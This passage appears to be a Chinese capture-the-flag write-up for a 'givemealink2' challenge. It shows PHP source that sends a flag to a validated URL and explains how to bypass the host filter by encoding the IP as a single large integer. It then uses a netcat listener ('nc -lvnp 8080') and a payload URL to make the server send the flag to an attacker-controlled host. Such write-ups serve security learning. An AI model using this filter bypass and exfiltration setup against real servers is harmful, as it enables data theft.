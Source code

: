 ```
            die('Not allowed scheme');
        }

        if(!preg_match('/^(localhost|127\.\d+\.\d+\.\d+|[^.]+)(\:\d+)?$/i', $parse['host'])){
            die('Not allowed host');
        }

        if(!preg_match('/\/plz_give_me$/', $parse['path'])){
            die('Not allowed path');
        }

        $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
        if($socket === false){
            die('Failed to create socket');
        }

        $host = gethostbyname($parse['host']);
        $port = is_null($parse['port']) ? 80 : $parse['port'];

        if(socket_connect($socket, $host, $port) === false){
            die('Failed to connect');
        }

        $send = "HEAD /".$flag." HTTP/1.1\r\n".
            "Host: ".$host.":".$port."\r\n".
            "Connection: Close\r\n".
            "\r\n\r\n";
        socket_write($socket, $send, strlen($send));

        $recv = socket_read($socket, 1024);var_dump($recv);
        if(!preg_match('/^HTTP\/1.1 200 OK\r\n/', $recv)){
            die('Not allowed response');
        }

        socket_close($socket);

        echo 'Okay, I sent the flag.', '<hr>';
    }

    highlight_file(__FILE__);
```

path中下划线'_'用无效字符绕过，关键就在于怎么绕过域名    

    if(!preg_match('/^(localhost|127\.\d+\.\d+\.\d+|[^.]+)(\:\d+)?$/i', $parse['host'])){
                die('Not allowed host');  

通常访问一个主机，可以使用域名，然后由dns解析成ip。其次是四组不大于256的数字表示Ip地址。再其次ip地址还可以用一个32位的大整数表示   
http://www.msxindl.com/tools/ip/ip_num.asp      
匹配`[^.]+`，加一个端口号就可以了     
在虚拟主机上`nc -lvnp 8080`   
payload:`http://givemealink2.solveme.peng.kr/?url=http://{ip地址超大整数}{端口号}/plz%10give%10me`  
